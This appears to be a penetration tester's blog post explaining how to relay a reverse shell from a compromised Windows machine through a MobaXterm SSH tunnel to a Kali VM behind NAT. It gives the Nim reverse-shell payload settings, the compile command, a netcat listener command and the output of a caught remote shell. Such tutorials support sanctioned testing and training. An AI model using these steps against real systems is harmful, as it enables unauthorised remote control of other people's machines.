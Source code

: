 ```yaml
---
layout: post
title: Getting Shells Past NAT  
tags: [MobaX]
---
```


# Getting Shells Through NAT to Kali
I came across a situation where I needed to send a reverse shell to a Kali Linux VM that was not on the same network as the compromised machine. My Windows 10 (hosting the vm) workstation ***was*** on the same network as the compromised machine. One might say "well just change the VM configuration to be on bridged mode." This was not possible for a few reasons. 

I had to figure out a way to send a reverse shell to my Windows 10 machine and have it routed to my Kali VM. This is achieved by a Local Port Forward.

[MobaXterm](https://mobaxterm.mobatek.net/) is a terminal application that has a bunch of functions baked into it. One of those features is the tunnel feature. 

![MobaX](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/MobaXShells/img1.png)

We can create a new SSHTunnel that will send the reverse shell to my kali machine. The "Forwarded port" will be the port that the shell will connect to on Windows, in my case, it will be 9000. The SSH Server section is the IP address, username, and port that SSH is running on Kali. My Kali's IP was `192.168.1.10` and SSH was on 22. The "Remote Server & Port" will be the loopback address and what port kali will be listening on for the shell (9001)

![MobaX](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/MobaXShells/img2.png)

# Payload Configuration
When we configure our payload the IP will be our Windows 10 machine `10.10.10.5` and the port we want to connect to will be the forwarded port `9000`. When the payload is received by windows it will forward that traffic to our netcat listener on port `9001`

## Example
For this example, I will use a simple NIM [reverse shell](https://github.com/0xZon/Offensive-Nim/blob/main/revShell.nim)

I went and changed the two variables at the bottom to look like this
```
[snip]
let port = 9000

let listener = 10.10.10.5
[snip]
```

Compile it
```
nim c -d:mingw -d:strip --opt:size revShell.nim
```

Set up a listener on kali
```
nc -lvnp 9001
```

Transfer the executable over to the victim machine and execute it. Once it's running the shell will catch 
```
┌──(kali㉿kali)-[~/nim/windows]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 34638
dir
 Volume in drive E is ssd
 Volume Serial Number is B214-E4A7

 Directory of E:\NIM

04/18/2022  08:11 PM    <DIR>          .
04/18/2022  08:11 PM    <DIR>          ..
04/18/2022  08:11 PM           145,920 revShell.exe
04/18/2022  08:08 PM           165,888 tcpReverseShell.exe
               2 File(s)        311,808 bytes
               2 Dir(s)  232,154,320,896 bytes free
```
